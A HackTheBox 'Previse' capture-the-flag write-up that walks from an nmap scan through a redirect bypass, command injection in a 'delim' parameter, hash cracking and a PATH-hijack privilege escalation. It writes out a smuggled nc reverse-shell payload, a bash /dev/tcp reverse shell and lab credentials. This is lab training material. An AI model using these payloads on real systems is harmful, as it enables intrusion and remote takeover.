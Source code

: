 +++
author = "Khaled Ngm"
title = "Previse write-up (HackTheBox)"
date = "2022-07-04"
description = ""
+++
# Previse write-up HackTheBox
![previse](/blog/images/1.png)
### 1. Port Scan Enumuration
### 2. Exploitation
### 3. Privilege Escalation
* ### USER
* ### ROOT

## Port Scan (Nmap)
* First We will scan target with nmap ``nmap -sV -sC 10.10.11.104``
* I found two open ports ``ssh`` and ``http``
```
Starting Nmap 7.91 ( https://nmap.org ) at 2021-09-02 03:00 EDT
Stats: 0:02:04 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 39.79% done; ETC: 03:05 (0:03:08 remaining)
Stats: 0:06:16 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 50.00% done; ETC: 03:06 (0:00:07 remaining)
Nmap scan report for previse.htb (10.10.11.104)
Host is up (0.45s latency).
Not shown: 997 closed ports
PORT     STATE    SERVICE          VERSION
22/tcp   open     ssh              OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 53:ed:44:40:11:6e:8b:da:69:85:79:c0:81:f2:3a:12 (RSA)
|_  256 bc:54:20:ac:17:23:bb:50:20:f4:e1:6e:62:0f:01:b5 (ECDSA)
80/tcp   open     http             Apache httpd 2.4.29 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
| http-title: Previse Login
|_Requested resource was login.php
3269/tcp filtered globalcatLDAPssl
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 515.82 seconds

```
## Exploitation
* I found login Web page at http server.
* let's try to fuzz directories with DirSearch .
``python3 dirsearch.py -u http://10.10.11.104/`` and I have found an interesting directory called ``nav.php``

     ![](/blog/images/2.png)
*  I tried to create account or visit any another links but pages have been redirected to ``login.php`` with ``302 Found``
* So I tried to edit response with ``200 ok`` and send it back to the server .

![](/blog/images/3.png)

* And I got a registration form , Then I created a new account.
* When I logged in I found visited ``files`` menu and found ``SITEBACKUP.ZIP`` file .
*  When I extracted The file I found interesting files such as ``config.php`` that contian db credentials and more interesting php file called ``log.php`` , let's check source code.
* I found ``exec`` function that take delim via post request run python script without any validation .
* I went to log file page MANAGEMENT MENU >> LOG DATA and opened burp broxy to see request.
* So I listened on the server with ``nc -nlvp 9999`` and tried to inject ``delim`` with reverse shell ``delim=comma;nc+-e+/bin/sh+[ip]+[port]`` and finally I got a shell .
* lets use ``python -c "import pty;pty.spawn('/bin/sh')"`` to get interactive shell .
## Privilege escalation (User)
* Now we are ``www-data`` we will try to escalat our privilages .
* Let's connect to database with ``username`` and ``password`` located in ``config.php`` file , ``mysql -u root -D previse -p`` and then password ``mySQL_p@ssw0rd!:)``.
* Then I found a Table Called ``account`` , let's show table content with ``select * from accounts;``
* And I found a user called ``m4lwhere`` that already exist on OS , and I tried to Identify hash type with hashID .
*When I got the mode of hash I used ``hashcat`` to decrypt it with ``hashcat -a 3 -m 500 hash.txt /wordlist_path`` that retrieve ``ilovecody112235!`` password .
* Let's connect with ``ssh`` to get user flag ``ssh m4lwhere@10.10.11.104``
## Privilege escalation (Root)
* First we will apply ``sudo -l`` command to see what commands this user can run with high privileges .
* user can run ``/opt/scripts/access_backup.sh`` as a root .
* When I checked content I found ``gzip`` command run without full path.
* let's create file called ``gzip`` with bash reverse shell content ``bash -i >& /dev/tcp/ip/port 0>&1`` at ``/tmp`` directory and add this file to PATH ``export PATH="/tmp:$PATH"`` and give it a permission ``chmod +x /tmp/gzip``.
* Now we can listen on port and run command ``sudo /opt/scripts/access_backup.sh`` .
* Finally we Got a root shell . :).
# Thanks

